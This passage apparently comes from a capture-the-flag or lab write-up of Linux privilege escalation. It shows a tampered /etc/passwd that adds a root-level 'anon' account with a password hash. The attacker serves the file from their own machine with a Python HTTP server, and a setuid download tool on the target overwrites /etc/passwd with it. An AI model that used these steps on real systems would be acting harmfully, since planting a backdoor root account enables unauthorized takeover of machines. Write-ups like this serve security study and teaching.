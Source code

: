 ```bash

➜  cat passwd                                                          
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
john:x:1000:1000::/home/john:/bin/bash
systemd-timesync:x:101:101:systemd Time Synchronization,,,:/run/systemd:/usr/sbin/nologin
systemd-network:x:102:103:systemd Network Management,,,:/run/systemd:/usr/sbin/nologin
systemd-resolve:x:103:104:systemd Resolver,,,:/run/systemd:/usr/sbin/nologin
messagebus:x:104:105::/nonexistent:/usr/sbin/nologin
sshd:x:105:65534::/run/sshd:/usr/sbin/nologin
ftp:x:106:108:ftp daemon,,,:/srv/ftp:/usr/sbin/nologin
david:x:1001:1001::/home/david:/bin/bash
anon:$1$anon$G05/IEkCfH5/MvkGBhHbe0:0:0:root:/root:/bin/bash

➜  

```

Now, we start a `python` HTTP server to transfer the modified `passwd` file to the target machine.

```bash
➜ python -m http.server 8000
Serving HTTP on 0.0.0.0 port 8000 (http://0.0.0.0:8000/) ...
192.168.20.15 - - [28/Feb/2025 03:21:27] "GET /passwd HTTP/1.1" 200 -

```

```bash
Mid_PrivShell $: ./odus -O /etc/passwd http://192.168.20.2:8000/passwd
./odus -O /etc/passwd http://192.168.20.2:8000/passwd
--2025-02-28 13:51:27--  http://192.168.20.2:8000/passwd
Connecting to 192.168.20.2:8000... connected.
HTTP request sent, awaiting response... 200 OK
Length: 1457 (1.4K) [application/octet-stream]
Saving to: ‘/etc/passwd’

/etc/passwd         100%[===================>]   1.42K  --.-KB/s    in 0s      

2025-02-28 13:51:27 (2.92 MB/s) - ‘/etc/passwd’ saved [1457/1457]

Mid_PrivShell $: 

```
